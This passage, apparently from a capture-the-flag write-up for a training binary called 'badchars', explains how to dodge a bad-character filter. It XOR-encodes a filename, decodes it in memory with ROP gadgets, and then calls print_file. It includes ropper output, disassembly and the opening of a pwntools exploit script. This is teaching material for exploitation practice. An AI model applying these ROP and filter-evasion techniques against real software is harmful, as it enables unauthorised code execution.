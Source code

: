 As we can see, the checking code is implemented in `pwnme`. It iterates over every character read in, checking it against values found in the `_badcharacters` object, and if a byte matches an entry, it gets set to `0xeb`. Since the checking code is in `pwnme`, we can easily run the gadgets to deobfuscate the code, because all our arbitrary code execution happens after `pwnme` returns. From there, we need to return to `print_file` with our deobfuscated filename as a parameter. Thankfully, it's been imported for us in `usefulFunction`, so we can just call it from the PLT.

Cool, now we need to figure out how to obfuscate our filename.

A common method used to obfuscate a string is through an XOR stream cipher. In this operation, each character in a string is XORed against a one-byte key. The resulting string of bytes is now no longer valid ASCII, and is undetectable by programs such as `strings` or disassembler programs. Thus, it is useful when one needs to hide hardcoded strings in an executable. However, this operation is easily reversed by XORing the encrypted stream against the same key. Thus, we can apply the XOR operation on the string before sending it in, and use gadgets to apply the same operation on the string once it's in memory, to get our original string back.

Now, we just need to find an XOR gadget.

```text
$ ropper -f ./badchars -b '7861672e' --search xor

[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] filtering badbytes... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: xor

[INFO] File: ./badchars
0x0000000000400628: xor byte ptr [r15], r14b; ret; 
0x0000000000400629: xor byte ptr [rdi], dh; ret; 
```

Funnily enough, we have the perfect gadget waiting for us to use. Almost too perfect...

```text
;-- usefulGadgets:
0x00400628      453037                 xor byte [r15], r14b
0x0040062b      c3                     ret
0x0040062c      450037                 add byte [r15], r14b
0x0040062f      c3                     ret
0x00400630      452837                 sub byte [r15], r14b
0x00400633      c3                     ret
0x00400634      4d896500               mov qword [r13], r12
0x00400638      c3                     ret
```

Sneaky bastard.

Also, yes, we can use `add` or `sub` operations in lieu of `xor`. I'm just trying to appear smarter than I actually am.

Now that we have some gadgets, we can start putting together a bit of our script:

```python
from pwn import *

elf = context.binary = ELF("./badchars")

PRINT_FILE = p64(elf.symbols.print_file)

# assign an arbitrary XOR key (this can be any byte except 0x00)
XOR_KEY = 0xe5

# xor byte ptr [r15], r14b; ret
XOR_R15_R14B_GADGET = p64(0x400628)
```
